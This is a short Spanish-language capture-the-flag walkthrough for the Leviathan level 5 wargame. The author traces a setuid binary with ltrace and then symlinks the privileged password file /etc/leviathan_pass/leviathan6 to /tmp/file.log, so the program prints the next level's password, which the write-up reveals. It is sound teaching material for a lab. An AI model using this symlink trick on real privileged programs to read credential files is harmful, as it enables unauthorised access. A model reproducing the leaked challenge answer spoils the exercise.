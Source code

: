 Notamos que hay un archivo ejecutable en la carpeta de usuario `leviathan5` 

```bash
$ ./leviathan5
Cannot find /tmp/file.log
```

Ejecutamos con `ltrace`.

```bash
$ ltrace ./leviathan5
__libc_start_main(0x8049206, 1, 0xffffd514, 0 <unfinished ...>
fopen("/tmp/file.log", "r")                                = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                          = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
```

Parece que trata de abrir un archivo, por lo que lo crearemos

```bash
$ echo "Hola Mundo!" > /tmp/file.log
$ ./leviathan5
Hola Mundo!
```

El script lee el archivo /tmp/file.log, y lo imprime por pantalla. Crearemos un
link a la contraseña, para que el archivo ejecutable lo lea.

```bash
$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
$ ./leviathan5
YZ55XPVk2l
```
